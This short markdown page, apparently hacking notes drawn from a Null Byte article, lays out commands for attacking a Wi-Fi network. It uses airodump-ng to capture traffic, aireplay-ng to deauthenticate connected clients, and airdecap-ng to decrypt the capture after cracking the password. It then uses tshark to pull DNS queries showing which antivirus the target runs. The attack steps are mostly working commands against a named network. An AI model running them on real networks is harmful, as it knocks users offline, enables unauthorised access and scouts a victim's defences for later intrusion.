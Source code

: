 # Gather Security Endpoints

After discovering the router's radio frequency presence then start capturing the packets.

```
# airodump-ng -c <channel> --bssid "00:20:91:B4:F8:33" --essid "NullByte_Network" -w wifi-capture.cap wlan0mon
```

Depending on the router's wireless encryption algorithm you will need to deauthenticate any client that is connected to the router then perform password cracking to decrypt the packet capture.

```
# aireplay-ng -0 100 -a <bssid> mon0
```

Once you've decrypted the packet capture open packet analysis software such as, Wireshark to inspect the network traffic.

```
# airdecap-ng -b "<bssid>" -e "<network_name>" -p "<password>" wifi-capture.cap

# tshark -r wifi-capture-dec.cap -n -T fields -e dns.qry.name | grep -i "avast\|avcdn" | sort -uo subdomains.txt
```

---
## References

### Null Byte

- [Null Byte: How to Identify Antivirus Software Installed on a Target's Windows 10 PC](https://null-byte.wonderhowto.com/how-to/identify-antivirus-software-installed-targets-windows-10-pc-0198775/)